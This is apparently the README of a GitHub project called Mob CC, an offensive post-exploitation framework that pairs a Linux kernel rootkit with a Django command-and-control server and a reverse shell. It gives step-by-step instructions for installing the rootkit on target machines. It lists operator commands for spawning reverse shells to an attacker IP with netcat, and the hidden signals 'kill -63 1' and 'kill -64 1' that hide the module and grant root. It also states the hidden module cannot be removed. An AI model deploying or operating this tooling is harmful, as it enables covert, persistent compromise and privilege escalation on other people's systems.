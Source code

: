 # mobcc

Mob CC is a post-exploitation framework containing a Linux kernel rootkit, C2 server, and Reverse shell with network scanning capabilities.

---

## Setup:
## Attacking side:
  - Download and install Django in your attacking system. 'pip install Django'
  - Download the mobserver directory. You can delete the database file (i.e., db.sqlite3)
  - Change the directory to mobserver ( cd /path/to/mobserver/ ) and delete all migration directories from the app directory.

  ### Setup the database:
    python3 ./manage.py makemigrations
    python3 ./manage.py migrate

  ### Run server:
    python3 ./manage.py runserver <IP> <port>

#### Note:
  - You can modify the IP address of the attacking machine.
  - If you wish to modify 'mob_client.py' you need to convert mob_client.py into a base64 string.
    `base64 mob_client.py`
  - Copy the base64 string and paste it in the place of the default string in 'mob.c'.
  
## Target Side:
  - Download the 'mob.c', 'make', and 'ftrace_helper.h' files and build the module using the make command (Make sure of the kernel version of the target system).  
  - Install the kernel module (mob.ko) using the insmod command. (This step should be done after the C&C server runs on the attacking machine)

  `sudo insmod mob.ko`

  - If everything is setup correctly (including the IP address) then after installing the rootkit you will get your target device name in the device list in home page.

---

## Usage:
  - Open the C&C server on your browser.
  - If you have already installed the rootkit on the target side then there will be your target device name in device list.
  - Select device and connect.
  - Send commands and recieve responses. You can check the help page for listed additional features.

---

## Linux Kernel Rootkit:
  - Use the Makefile to build the module.
  - ftracer_helper.h is a helping module trying to override the system calls. (Author: xcellerator)
  - Hide and Unhide themselves from modules lists.
  - Granting root permissions by updating root credentials.
  - Creating and executing the reverse shell/backdoor, which can be used to connect to a C2 server.

## Command & Control server:
  - Add new devices to the database by auto-collecting IP from the Https requests.
  - Connect to the target system via reverse shell/backdoor.
  - Send commands and receive responses from the target system via reverse shell.
  - Provide a list of every compromised system's commands and responses.
  - Handle requests from multiple compromised systems simultaneously.

## Reverse shell / Backdoor:
  - When executed, request the C2 server to add this device to the database.
  - Establish the connection between the C2 server and the target system.
  - Spawn a new reverse shell on demand for different IP addresses provided by the C2 server.
  - Scan the network and open ports for potential vulnerabilities in other connected systems.

---

# Screenshots:
  ## Home Page
  ![Home Page](/images/mobcc_home.png)

  ## Send Commands
  ![Send Commands](/images/connect_mob_client.png)

  ## Scan Network
  ![Scan Network](/images/scanning_network.png)

  ## Spawn Shell
  ![Spawn Shell](/images/spawn_newshell.png)

---

# Note:
  - Note that if you kill the reverse shell process, you must install the kernel rootkit module again into the target system.
  - No one can remove the module if it's hidden.

---

# Help:
  - To spawn a new shell from a different device. eg:'nc -lvnp &lt;port&gt;' | 'spawn &lt;Attacker_IP&gt; &lt;port&gt;'
  - To scan the internal network from the target system. 'scan'
  - To kill the connection (reverse shell process) type. 'kill -9 &lt;pid&gt;'
  - To toggle between hide and show the kernel module. 'kill -63 1'
  - To gain root privilege in the target machine from any other attacking machine using a reverse shell-like above. 'kill -64 1'

---


# Resources:
Learn how to create Linux Kernel modules: https://xcellerator.github.io/posts/linux_rootkits_01/

